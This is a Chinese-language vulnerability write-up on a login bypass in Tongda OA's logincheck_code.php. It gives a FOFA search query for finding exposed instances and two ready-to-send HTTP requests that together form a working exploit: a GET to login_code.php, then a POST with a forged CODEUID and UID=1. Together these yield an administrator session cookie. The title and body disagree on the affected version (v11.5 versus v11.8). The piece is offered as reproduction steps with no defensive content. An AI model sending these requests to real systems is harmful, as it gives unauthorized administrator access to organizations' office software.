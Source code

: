 # 通达OA v11.5 logincheck_code.php 登陆绕过漏洞

## 漏洞描述

通达OA v11.8 logincheck_code.php存在登陆绕过漏洞，通过漏洞攻击者可以登陆系统管理员后台

## 漏洞影响

```
通达OA v11.8
```

## FOFA

```
app="TDXK-通达OA"
```

## 漏洞复现

登陆页面

![image-20220520153945050](./images/202205201539126.png)

发送第一个请求包

```
GET /general/login_code.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Accept-Encoding: gzip
```

![image-20220520153955791](./images/202205201539839.png)

再发送第二个恶意请求

```
POST /logincheck_code.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 56
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

CODEUID=%7BD384F12E-A758-F44F-8A37-20E2568306A7%7D&UID=1
```

![image-20220520154005687](./images/202205201540724.png)

获取cookie后访问管理员页面 `/general/index.php`

![image-20220520154020588](./images/202205201540662.png)